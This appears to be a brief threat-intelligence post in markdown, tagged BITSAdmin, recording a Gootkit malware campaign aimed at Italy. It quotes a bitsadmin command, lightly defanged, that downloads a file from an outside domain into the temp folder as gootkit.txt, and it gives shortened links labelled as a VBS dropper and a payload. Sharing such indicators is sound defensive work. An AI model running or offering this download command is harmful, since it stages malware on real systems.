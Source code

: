```yaml
---
layout: post
title: JAMESWT
date: 2018-08-09 03:00:21
tourl: www.baidu.com
tags: [BITSAdmin]
---
```

bitsadmin /transfer msd5 /priority foreground htt]p://cima-apartments.com/pageredx1852.php %TEMP%\gootkit.txt
#Gootkit #italy
vbs
https://t.co/YHyyjMUzR5
payload
https://t.co/8jx1I1xsak